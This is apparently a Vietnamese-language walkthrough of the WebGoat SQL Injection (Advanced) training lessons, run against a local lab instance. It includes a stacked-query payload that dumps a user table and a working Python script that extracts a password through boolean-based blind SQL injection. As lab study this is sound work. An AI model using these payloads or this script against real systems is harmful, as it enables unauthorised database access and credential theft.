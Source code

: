 ```yaml
---
title: "(A3) Injection - SQL Injection (Advanced) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Advanced)"
date: "21-3-2024"
id: "11"
---
```


![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711097747/WebGoat/WebGoat_ad2axz.png)

- **Blind SQL** injection là một phương pháp tấn công vào các ứng dụng web thông qua việc lợi dụng lỗ hổng bảo mật trong việc xử lý cơ sở dữ liệu SQL. Trong kiểu tấn công này, kẻ tấn công cố gắng chèn các câu lệnh SQL vào các trường dữ liệu đầu vào của ứng dụng web để thực hiện các hành động không được ủy quyền hoặc thu thập thông tin từ cơ sở dữ liệu.
- Trong trường hợp blind SQL injection, kẻ tấn công không nhận được bất kỳ phản hồi trực tiếp nào từ hệ thống sau khi thực hiện một yêu cầu tấn công. Thay vào đó, họ phải dựa vào các biểu hiện gián tiếp từ hệ thống để suy luận thông tin về cơ sở dữ liệu.

- Cụ thể, kẻ tấn công có thể sử dụng các kỹ thuật như "boolean-based blind SQL injection" hoặc "time-based blind SQL injection". Trong boolean-based blind SQL injection, kẻ tấn công thực hiện các truy vấn SQL dựa trên các điều kiện logic và suy luận thông tin dựa trên câu trả lời đúng/sai từ hệ thống. Trong time-based blind SQL injection, kẻ tấn công thực hiện các truy vấn có thời gian chạy lâu hơn và suy luận thông tin dựa trên thời gian phản hồi từ hệ thống.
- Các hậu quả của blind SQL injection có thể rất nghiêm trọng, bao gồm việc lợi dụng quyền truy cập không được ủy quyền vào cơ sở dữ liệu, thu thập thông tin nhạy cảm hoặc thậm chí kiểm soát hoàn toàn hệ thống. Để ngăn chặn blind SQL injection, các nhà phát triển web cần chú ý đến việc kiểm tra và xử lý đúng các đầu vào người dùng, sử dụng các phương pháp an toàn trong việc truy xuất cơ sở dữ liệu như Prepared Statements hoặc ORM (Object-Relational Mapping), và thường xuyên cập nhật và kiểm tra mã nguồn để phát hiện và khắc phục các lỗ hổng bảo mật.

## 1. Try It! Pulling data from other tables

- Đề bài yêu cầu lấy tất cả dữ liệu của bảng `user_system_data` và lấy mật khẩu của Dave.
- Nhập câu lệnh sau vào ô Name là nhấn Get Account Info:

```json
'; SELECT * FROM user_system_data;--
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H46_ya1wem.png)

- Ta code thể thấy được mật khẩu của Dave là `passW0rD`, dán mật khẩu vào ô Password và nhấn Check Password là xong:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H47_fcgm3n.png)

## 2. Login

- Ta đăng kí một tài khoản với Username là: `tom' AND substring(password, 1, 1)='t`, ta có thể suy ra trong password của Tom có một chữ là `t`:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H48_fs50vr.png)

- Ta chạy chương trình Python sau gửi request để kiểm tra tất cả mật khẩu có thể có, thay đổi session_id tương ứng trên trình duyệt của bạn:

```python
import json,requests

def main():
    url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
    webgoat_session_id = "0qexwJ47oTLOrGtzuYKYogZvulhhHESl-HYq07E1"
    header = {
        "Cookie": "JSESSIONID=" + webgoat_session_id,
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": "http://localhost:8080/WebGoat/start.mvc",
        "Origin": "http://localhost:8080",
        "Host": "localhost:8080",
        "Content-Length": "126",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\"",
        "Accept": "*/*",
        "Connection": "keep-alive",
        "X-Requested-With": "XMLHttpRequest",
        "sec-ch-ua-mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36",
        "sec-ch-ua-platform": "macOS",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Dest": "empty",
        "Accept-Language": "en-US,en;q=0.9",
        "Accept-Encoding": "gzip, deflate",
    }
    password = ""
    for length in range(1, 25):
        for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            params = "username_reg=tom'+AND+substring(password%2C1%2C" + str(
                length) + ")%3D'" + password + letter + "&email_reg=test%40test.test&password_reg=test&confirm_password_reg=test"
            r = requests.put(url, headers=header, data=params)
            if "already exists" in r.text:
                password += letter
                print(password)
                break
            else:
                continue
    print("")
    print("")
    print("Password found: " + password)

if __name__ == "__main__":
    main()
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H49_tax4nz.png)

- Chạy sẽ hơn lâu, ta tìm được mật khẩu là `thisisasecretfortomonly`. Ta đăng nhập với Username là Tom và mật khẩu vừa tìm được:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H50_rbviid.png)
